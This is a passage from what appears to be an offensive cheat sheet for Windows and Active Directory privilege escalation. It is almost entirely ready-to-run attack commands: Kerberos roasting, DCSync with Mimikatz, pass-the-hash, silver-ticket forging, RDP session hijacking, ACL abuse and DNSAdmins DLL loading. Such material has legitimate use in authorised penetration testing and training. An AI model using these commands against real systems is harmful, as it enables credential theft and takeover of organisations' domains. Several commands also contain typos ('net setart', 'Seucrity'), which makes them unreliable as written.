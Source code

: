         *   `Invoke-Rubeus -Command "asreproast /domain:[DOMAIN] /nowrap"`
        *   `Invoke-Rubeus -Command “kerberoast /domain:[DOMAIN] /nowrap”`
    *   DACL Abuse
        *   `Invoke-ACLScanner` / `Find-InterestingDomainACL`
        *   `Invoke-Bloodhound`
        *   [Exploitations 101](https://www.thehacker.recipes/ad/movement/dacl/) / [102](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)
        *   DCSyncing → `Invoke-Mimikatz -Command "lsadump::dcsync /user:Administrator" exit`
    *   Unconstrained Delegation
        *   `Get-NetComputer -Unconstrained`
        *   `Invoke-Rubeus -Command "dump /nowrap"`
        *   `Invoke-Rubeus -Command "monitor /monitorinterval:10 /targetuser:dc1$ /nowrap"`
    *   MSSQL Instances
        *   `Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo`
        *   [PowerUP-SQL Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
        *   [Exploitations](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/abusing-ad-mssql#mssql-basic-abuse)
*   Users
    *   Service Accounts < Normal Users < Administrator → Determine EOP Path
    *   Authentication
        *   Local Passwords
            *   `net user [USERNAME]`
            *   `$creds = New-Object System.Management.Automation.PSCredential('[HOSTNAME\[USER]', $(ConvertTo-SecureString '[PASSWORD' -AsPlainText -Force))`
            *   `Start-Process -FilePath "C:\Windows\System32\cmd.exe" -ArgumentList "/c [OS_COMMAND]" -Credential $creds`
        *   NT Hashes
            *   `Invoke-Rubeus "asktgt /domain:[DOMAIN] /user:[USER] /rc4:[HASH] /ptt"`
            *   Password Conversion → `iconv -f ASCII -t UTF-16LE <(printf "[PASS]") | openssl dgst -md4`
            *   Cracking                         → `hashcat -m 1000`
        *   Service Hashes
            *   `Invoke-Rubeus "silver /service:[SPN] /rc4:[SRV_HASH] /user:Administrator /ldap /ptt"`
            *   Export Ticket → Impersonate Admin + [SPN Abuses](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#abusing-service-tickets)
        *   User Tickets
            *   `Invoke-Rubeus -Command "ptt /ticket:[KIRBI_TICKET/B64_STRING]"`
            *   B64 to Kirbi      → `[IO.File]::WriteAllBytes("[KIRBI_TICKET]", [Convert]::FromBase64String("[BASE64_TICKET]"))`
            *   Kirbi to B64      → `[Convert]::ToBase64String([IO.File]::ReadAllBytes("[KIRBI_TICKET"]))`
    *   Enumeration
        *   `net user`                       → `net user [USER]`  → Sensitive Exposure / Memberships / Logon Scripts        
        *   `net localgroup`           → `net localgroup [GROUP]`
        *   `tree /a /f C:\users` → SSH / Sensitive Files / Vulnerable Applications & Data Folders
    *   RDP Hijacking (Local Admin)
        *   `query user` → Active RDP SESSIONNAME
        *   `sc create sesshijack binpath= "cmd.exe /k tscon 1 /dest:[SESSNAME]"`
        *   `net setart sesshijack`
    *   Permission Bypass
        *   `icacls [PROTECTED_FILE/FOLDER]` → Check `R/W/F` Access
        *   Take Ownership → `icacls [PROTECTED_FILE/FOLDER] /grant [USER]:F`
    *   Groups
        *   `whoami /groups` 
        *   Event Log Readers
            *   `wevtutil qe Seucrity /rd:true /f:text | findstr "/user"`
            *   `wevtutil qe Seucrity /rd:true /f:text /u:[USER] /p:[PASS] | findstr "/user"`
            *   `Get-WinEvent -LogName security | where {$_.ID -eq 4688 -and $_.Properties[8].Vaue -like '*/user*'} | Select-Object @{name='CommandLine';expression={$_.Properties[8].Value}}`
        *   [DNSAdmins](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
            *   RCE
                *   `dnscmd /config /serverlevelplugindll [MALICIOUS_DLL]` OR `kdns.c` + `mimilib.dll`